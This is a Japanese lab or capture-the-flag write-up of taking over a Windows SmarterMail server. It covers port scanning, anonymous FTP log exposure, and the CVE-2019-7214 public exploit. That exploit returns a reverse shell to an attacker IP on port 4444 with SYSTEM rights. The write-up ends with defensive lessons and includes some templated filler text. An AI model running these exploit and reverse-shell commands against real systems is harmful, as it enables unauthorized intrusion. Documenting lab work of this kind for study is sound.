

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows |
| 難易度 | 記録なし |
| 攻撃対象 | メールサーバー (SmarterMail) と FTP |
| 主な侵入経路 | SmarterMail .NET Remoting RCE (CVE-2019-7214) |
| 権限昇格経路 | エクスプロイトで直接 SYSTEM 取得 |

## 認証情報

認証情報なし。

## 偵察

---
💡 なぜ有効か
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.178.65:5040
Open 192.168.178.65:9998
Open 192.168.178.65:17001
```

```bash
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
9998/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
17001/tcp open  remoting      MS .NET Remoting services
```

## 初期足がかり

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。

FTP匿名ログインが許可されており、Logsディレクトリに管理者のアクティビティログが残っていた:

```bash
ftp $ip
# anonymous でログイン
ftp> ls
```

```bash
04-29-20  09:31PM       <DIR>          ImapRetrieval
03-04-26  06:00AM       <DIR>          Logs
04-29-20  09:31PM       <DIR>          PopRetrieval
04-29-20  09:32PM       <DIR>          Spool
```

```bash
cat 2020.05.12-administrative.log
```

```bash
03:35:45.726 [192.168.118.6] User @ calling create primary system admin, username: admin
03:35:47.054 [192.168.118.6] Webmail Login successful: With user admin
```

ポート9998でSmarterMailが動作していた。CVE-2019-7214はポート17001の.NET Remotingエンドポイントを非認証で悪用する:

https://github.com/devzspy/CVE-2019-7214

```bash
python3 CVE-2019-7214.py -l 192.168.45.166 -r 192.168.178.65 --lport 4444
```

```bash
[*] Attacking: tcp://192.168.178.65:17001/Servers
[*] Attempting to send exploit...
[*] Exploit sent! Check your shell at 192.168.45.166:4444
```

```bash
nc -lvnp 4444
```

```bash
connect to [192.168.45.166] from (UNKNOWN) [192.168.178.65] 49970

PS C:\Windows\system32> whoami
nt authority\system
```

💡 なぜ有効か
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## 権限昇格

---
エクスプロイトにより直接 `nt authority\system` シェルが取得できたため、追加の権限昇格は不要だった。

```bash
PS C:\users\administrator\desktop> type proof.txt
f5068fd94918f48cd312676f40bf9541
```

💡 なぜ有効か
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## まとめ・学んだこと

- メールサーバーソフトウェア (SmarterMail) を最新状態に保つ — CVE-2019-7214 は .NET Remoting 経由で非認証 RCE が可能。
- 内部 Remoting エンドポイント (ポート 17001) を信頼されていないネットワークからファイアウォールで遮断する。
- 匿名 FTP アクセスを制限する — ログディレクトリが運用情報を露出させる。
- すべての公開サービスで管理者認証情報を定期的に監査・ローテーションする。

### Attack Flow

---
攻撃チェーンを進め、次の仮説を検証するために以下のコマンドを実行します。オープンサービス、悪用可否、認証情報の露出、権限境界などの指標を確認します。コマンドとパラメータはそのまま記録し、追試できる形を維持します。



## 参考文献

- CVE-2019-7214: https://nvd.nist.gov/vuln/detail/CVE-2019-7214
- SmarterMail CVE-2019-7214 PoC: https://github.com/devzspy/CVE-2019-7214
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
